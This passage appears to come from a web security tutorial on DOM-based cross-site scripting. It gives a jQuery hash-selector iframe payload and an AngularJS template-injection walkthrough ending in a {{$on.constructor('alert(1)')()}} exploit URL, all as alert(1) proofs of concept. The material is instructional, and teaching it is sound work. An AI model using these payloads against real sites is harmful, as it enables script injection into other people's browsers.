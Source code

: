 Exploit

```html
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```

{% hint style="info" %}
**Note**: Recent versions of jQuery have patched this specific vulnerability by preventing HTML injection into a selector if the input begins with a hash (#). But remember, this is just an example, the real problem is how `$()` selector works .
{% endhint %}

### <mark style="color:yellow;">AngularJS</mark>

When a site uses the `ng-app` attribute on an HTML element, AngularJS processes it and executes JavaScript inside double curly braces `{{ }}` in HTML or attributes.

Consider

```
https://example.com/?search=test
```

```html
<body ng-app>
<!-- something -->
<h1>0 search results for 'test'</h1>
<!-- something -->
</body>
```

Test

```sh
https://example.com/?search=%7B%7B1%2B1%7D%7D # ?search={{1+1}}
```

```html
<body ng-app>
<!-- something -->
<h1>0 search results for '2'</h1>
<!-- something -->
</body>
```

Exploit

```sh
https://example.comnet/?search=%7B%7B%24on.constructor%28%27alert%281%29%27%29%28%29%7D%7D
# ?search={{$on.constructor('alert(1)')()}}
```

```html
<body ng-app>
<!-- something -->
<h1>0 search results for ''</h1>
<!-- something -->
</body>
```
